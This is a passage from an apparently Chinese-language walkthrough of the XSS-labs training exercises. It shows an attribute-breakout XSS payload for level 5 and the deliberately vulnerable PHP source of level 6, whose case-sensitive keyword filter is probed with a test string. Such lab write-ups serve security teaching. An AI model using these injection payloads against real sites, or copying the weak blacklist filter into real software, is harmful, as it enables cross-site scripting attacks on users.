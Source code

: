### 运行

```js
http://192.168.70.10:8084/level5.php?keyword="><a href ="javascript:alert:alert(/xss/)">click</a>
```

![image-20240819210253185](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819210253185.png)

## level6 大小写

### 访问

http://192.168.70.10:8084/level6.php?keyword=break%20it%20out!

![image-20240819210343891](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819210343891.png)

### 源码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

- 对`<script，on，src，data，href`做了加**下划线_**处理。

### 测试过滤

```js
<script " 'Oonn>
```

![image-20240819210818507](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819210818507.png)

变成了

```js
<scr_ipt " 'Oo_nn>
```

![image-20240819210859737](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819210859737.png)
